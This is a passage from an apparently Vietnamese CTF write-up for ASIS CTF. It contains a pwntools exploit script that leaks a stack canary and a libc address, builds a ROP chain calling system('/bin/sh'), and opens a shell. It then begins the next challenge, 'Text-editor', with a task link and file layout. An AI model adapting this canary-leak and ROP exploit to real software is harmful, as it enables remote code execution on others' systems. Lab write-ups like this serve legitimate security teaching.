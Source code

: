 ```python!=
"""
#gdb.attach(p,script)
p.recv()
p.sendline(b'1337')
time.sleep(0.3)
p.recv()
p.sendline(cyclic(72))
time.sleep(0.3)
p.recvline()
p.recv(72)
leak_canary = u64(p.recv(8).ljust(8,b'\x00')) - 0xa
log.info("Leak canary: %s", hex(leak_canary))
print(p.recv())
p.sendline(b'1337')

p.recv()
p.sendline(b'1337')
time.sleep(0.3)

p.recv()
p.sendline(cyclic(0x58-1))
#p.interactive()
time.sleep(0.3)
p.recvline()
p.recv(87)
leak_libc = u64(p.recv(8).strip(b'\n').ljust(8,b'\x00'))
#p.interactive()
libc_base = leak_libc -0x1d90
sys_func = leak_libc + 0x26fd0
bin_sh = leak_libc + 0x1ae908
pop_rdi = libc_base + 0x23e5
log.info("Leak_libc: %s", hex(leak_libc))
p.recv()
p.sendline(b'1337')

p.recv()

p.sendline(b'1337')
payload = b'A'*72 + p64(leak_canary) + b'B'*8+ p64(pop_rdi+1) + p64(pop_rdi) + p64(bin_sh) + p64(sys_func)
p.recv()
p.sendline(payload)
p.recv()
p.sendline(b'0')
p.interactive()
```
:bulb: **==Flag: ASIS{so_you_know_how_to_pwn?!!!!}==**

## 2.Text-editor
- Đề bài: [Challenge_link](https://asisctf.com/tasks/text-editor_f5bd64fa398dc72dd79a91c369ee540781a8bdfd.txz)
- Solution: 
Đầu tiên ta sẽ phân tích cấu trúc của file challenge đã cho ta sẵn ngay từ đầu.
```
/text-editor
- dockerfile
- flag.txt
/stuff
- chall
- xinetd.conf
```
Cấu trúc của file cũng giống như file challenge hipwn, từ đó ta có thể xác định libc của mà remote challenge đang sử dụng cùng loại libc với trên máy của mình